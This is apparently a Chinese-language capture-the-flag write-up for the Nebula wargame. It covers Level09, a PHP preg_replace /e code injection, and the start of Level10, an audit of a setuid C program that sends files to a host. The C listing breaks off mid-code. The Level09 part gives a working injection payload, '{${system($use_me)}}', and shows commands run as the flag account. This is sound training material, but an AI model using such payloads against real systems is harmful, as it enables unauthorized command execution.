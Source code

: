这题有两个可控点，`$filename`和`$use_me`
然后涉及到两个知识点，一个是preg_replace已经被弃用的的/e(见[http://php.net/manual/zh/reference.pcre.pattern.modifiers.php#reference.pcre.pattern.modifiers.eval])
会转义单引号，双引号，反斜杠和NULL，然后还会执行spam("\\2")。。然后涉及到第二个知识点([ttp://php.net/manual/en/language.types.string.php#language.types.string.parsing]):
```
level09@nebula:/home/flag09$ vim /tmp/payload
[email {${system($use_me)}}]
level09@nebula:/home/flag09$ ./flag09 /tmp/payload whoami
flag09
level09@nebula:/home/flag09$ ./flag09 /tmp/payload getflag
You have successfully executed getflag on a target account
```

# Level10

这题又是C代码审计，本题目标是读取token文件内容
```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
```